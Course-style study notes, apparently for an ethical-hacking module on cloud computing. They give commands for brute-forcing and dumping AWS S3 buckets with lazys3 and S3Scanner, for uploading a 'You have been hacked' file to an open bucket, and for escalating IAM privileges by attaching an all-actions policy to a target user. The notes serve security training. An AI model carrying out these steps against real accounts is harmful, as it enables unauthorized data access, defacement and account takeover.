 # Module 19: Cloud Computing

- infrastructure-as-a-service (IaaS)
- platform-as-a-service (PaaS)
- software-as-a-service (SaaS)

## Perform S3 Bucket Enumeration

### Enumerate S3 Buckets using lazys3
  
  lazys3 is a Ruby script tool that is used to brute-force AWS S3 buckets using different permutations. 
  
  1. ``` cd lazys3 ```
  2. ``` ruby lazys3.rb ```
  3. ``` ruby lazys3.rb [Company]  ```
    You can search the S3 buckets of specific company.

### Enumerate S3 Buckets using S3Scanner

  1. ``` cd S3Scanner ```
  2. ``` pip3 install -r requirements.txt ```
  3. ``` python3 ./s3scanner.py sites.txt ``` sites.txt is a text file containing the target website URL that is scanned for open S3 buckets.
  4. ``` python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt ``` Dump all open buckets and log both open and closed buckets in found.txt.
  5. ``` python3 ./s3scanner.py names.txt ``` log open buckets in the default output file (buckets.txt)
  6. ``` python ./s3scanner.py --list names.txt ``` Save the file listings of all open buckets to a file

### Other tools:
  - S3Inspector (https://github.com)
  - s3-buckets-bruteforcer (https://github.com)
  - Mass3 (https://github.com)
  - Bucket Finder (https://digi.ninja)
  - s3recon (https://github.com)
    
## Exploit S3 Buckets

  identify AWS S3 Buckets:
  - **Inspecting HTML**: Analyze the source code of HTML web pages in the background to find URLs to the target S3 buckets
  - **Brute-Forcing URL**: Use Burp Suite to perform a brute-force attack on the target bucket’s URL to identify its correct URL
  - **Finding subdomains**: Use tools such as Findsubdomains and Robtex to identify subdomains related to the target bucket
  - **Reverse IP Search**: Use search engines such as Bing to perform reverse IP search to identify the domains of the target S3 buckets
  - **Advanced Google hacking**: Use advanced Google search operators such as “inurl” to search for URLs related to the target S3 buckets

  ### Exploit Open S3 Buckets using AWS CLI
  
  1. ``` pip3 install awscli ```
  2. ``` aws --help ```
  3. ``` aws configure ```
  4. ``` aws s3 ls s3://[Bucket Name] ```
  5. ``` echo “You have been hacked” >> Hack.txt ```
  6. ``` aws s3 mv Hack.txt s3://[Bucket Name] ```
  
## Perform Privilege Escalation to Gain Higher Privileges
  
  IAM: Identity and access management
  
### Escalate IAM User Privileges by Exploiting Misconfigured User Policy

  1. ``` aws configure ```
  2. ``` vim user-policy.json ```
  
     ```
     "Version": "2012-10-17",
     "Statement": [
     {
        "Effect": "Allow",
        "Action": "*",
        "Resource": "*"
     }
     ] ```
     
     - This is an AdministratorAccess policy that gives administrator access to the target IAM user.

  3. ``` aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json ```
  4. ``` aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy ```
  5. ``` aws iam list-attached-user-policies --user-name [Target Username] ```
  6. Other commands:
    - List of S3 buckets: aws s3api list-buckets --query "Buckets[].Name"
    - User Policies: aws iam list-user-policies
    - Role Policies: aws iam list-role-policies
    - Group policies: aws iam list-group-policies
    - Create user: aws iam create-user
